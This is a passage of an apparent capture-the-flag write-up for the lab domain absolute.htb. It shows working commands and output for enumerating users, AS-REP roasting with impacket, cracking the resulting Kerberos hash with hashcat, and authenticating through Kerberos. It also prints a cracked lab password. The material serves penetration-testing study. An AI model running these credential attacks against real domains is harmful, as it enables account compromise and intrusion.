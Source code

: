 The purple `[-]` fails with `STATUS_ACCOUNT_RESTRICTION` rather than the others which return `STATUS_LOGON_FAILURE`, suggesting those accounts exist

### AS-Rep-Roast
```bash
impacket-GetNPUsers -dc-ip dc.absolute.htb -usersfile usernames_short absolute.htb/

$krb5asrep$23$d.klay@ABSOLUTE.HTB:0873728c96c41252f7e9640eaf9fb9db$3b8c9a135464acfc7c2ad55acd0d61bddd683bbd5ad899897c6f478fa8c15f47f2f6a08904d098ab397ac2c687e708a5e0ba024493ca213f080abd8e30b1b814cc5ee83b1c5beceec377c3fab777e80401adf167865f5e57a205e76f028b3ff3cac758ea6d10baa2b934503a552ee760b81f1912ae5ce2a3c77ddd2d8acc1e472afb689150a276c81ecefacce806c504907a3c987f302e60a844c3d0e65f619901086ad073aefdbf2fbce88bc78312a1d08c86c573f5c8403319b8a09ce8f226e555f14e59d0fd285ac68ccb6748ed02bf34dcb45e7ffde9fdf598025fbf20fdd859c93eca38a785d34cfdda

hashcat d.klay.hash /usr/share/wordlists/rockyou.txt 

Darkmoonsky248girl
```

### Kerberos Auth
##### Failed without Kerberos
`STATUS_ACCOUNT_RESTRICTION` typically means NTLM is disabled, and need to use Kerberos for auth. That works:

```bash
crackmapexec smb $IP -u d.klay -p 'Darkmoonsky248girl'
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
crackmapexec smb $IP -u d.klay -p 'Darkmoonsky248girl' -k
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [-] absolute.htb\d.klay: KRB_AP_ERR_SKEW 
```

##### Method 1, Kinit
It needs to config `/etc/resolv.conf` by adding the Kali's IP as nameserver and `/etc/krb5.conf`.

```conf
[libdefaults]   
    	default_realm = ABSOLUTE.HTB

[realms]
        ABSOLUTE.HTB = {
                kdc = dc.absolute.htb
        }
```

Otherwise, it'll be super slow even it's worked.

```bash
kinit d.klay
Password for d.klay@ABSOLUTE.HTB: 

klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: d.klay@ABSOLUTE.HTB

Valid starting     Expires            Service principal
20/11/23 17:31:35  20/11/23 21:31:35  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
        renew until 20/11/23 21:31:35

sudo ntpdate -u absolute.htb
2023-11-20 17:32:37.857792 (+1300) +25184.900725 +/- 0.109022 absolute.htb 10.129.229.59 s1 no-leap
CLOCK: time stepped by 25184.900725
```